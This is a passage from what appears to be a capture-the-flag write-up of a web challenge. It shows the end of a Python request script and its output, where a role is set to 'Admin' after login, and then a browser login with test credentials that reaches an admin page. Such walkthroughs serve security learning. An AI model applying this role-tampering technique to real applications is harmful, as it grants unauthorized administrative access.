 ```python
        print( "Location Header: " + r.headers['Location'] )
    except:
        print("no location")
    for h in r.headers:
        print( "Header: " + h + ": " + r.headers[h] )
    print( "Content: " + str(r.content) )
```

When executing this script, we get :

```
[ ] Login
Response code: 302
Location Header: /index.php
Cookie: {'PHPSESSID': 'a031m0ccod0o1pockijak01lss'}
Content: b''
[ ] set role to Admin
Response code: 302
Location Header: /index.php?msg=Game has been saved!
Header: Date: Thu, 26 Oct 2023 16:39:59 GMT
Header: Server: Apache/2.4.52 (Ubuntu)
Header: Expires: Thu, 19 Nov 1981 08:52:00 GMT
Header: Cache-Control: no-store, no-cache, must-revalidate
Header: Pragma: no-cache
Header: Location: /index.php?msg=Game has been saved!
Header: Content-Length: 0
Header: Connection: close
Header: Content-Type: text/html; charset=UTF-8
Content: b''
```

And when logon with the browser (login = “john” , password = “doe”) :

![Untitled](assets/web_admin.png)

We have gained access to a new page :
